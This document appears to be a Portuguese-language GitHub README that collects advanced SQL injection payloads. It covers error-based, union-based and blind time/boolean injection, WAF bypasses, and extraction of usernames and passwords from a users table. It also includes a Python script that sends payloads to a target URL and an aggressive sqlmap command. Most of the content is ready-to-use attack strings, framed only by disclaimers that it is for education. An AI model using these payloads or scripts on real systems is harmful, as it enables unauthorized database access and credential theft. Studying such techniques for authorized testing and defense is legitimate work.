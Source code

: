 Advanced SQL Injection Techniques by walkerGold



🚨 Disclaimer

Este repositório é apenas para fins educacionais e deve ser utilizado exclusivamente em ambientes autorizados. O uso indevido dessas técnicas pode causar danos a bancos de dados. Use por sua conta e risco.

📌 Sobre

Aqui estão algumas técnicas avançadas de SQL Injection frequentemente utilizadas. Essas técnicas vão além do básico e exploram configurações específicas dos bancos de dados.

⚠ Aviso: Se você não sabe o que está fazendo, não utilize essas técnicas.

🛠 Técnicas Avançadas de SQL Injection

🔹 Error-Based SQL Injection

' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT version()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- -

🔹 Union-Based Injection

Descobrindo o número de colunas:

' UNION SELECT NULL, NULL, NULL, NULL --

Extraindo dados:

' UNION SELECT username, password, NULL, NULL FROM users --

🔹 Blind SQL Injection

Boolean-Based Blind:

' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END) --

Time-Based Blind:

' AND IF(1=1, SLEEP(5), 0) --

🔹 Bypassing WAFs e Filtros

Utilizando Comentários:

' UNION/**/SELECT/**/NULL,NULL,NULL --

Manipulação de Case:

' uNioN SeLecT NULL, NULL --

Uso de Caracteres Especiais:

' UNION SELECT CHAR(117,115,101,114,110,97,109,101), CHAR(112,97,115,115,119,111,114,100) --

🔹 Extração de Dados

Extraindo Nomes de Colunas:

' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --

Agrupando Resultados:

' UNION SELECT GROUP_CONCAT(username, 0x3a, password) FROM users --

🖥 Automação com Scripts

Exemplo de Script Python:

import requests

url = "http://example.com/vulnerable.php"
payloads = [
    "' UNION SELECT 1, version(), database(), user() FROM dual --",
    "' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) --"
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}\nResponse: {response.text}\n")

⚙️ Uso com SQLMap

Executando SQLMap com Scripts Customizados:

sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=random_urlencode --level=5 --risk=3

📢 Contato

Para mais conteúdos, siga walkerGold


---

⚠ Lembre-se: Não ataque sistemas sem permissão. Todas as técnicas são apenas para fins educacionais e legais.


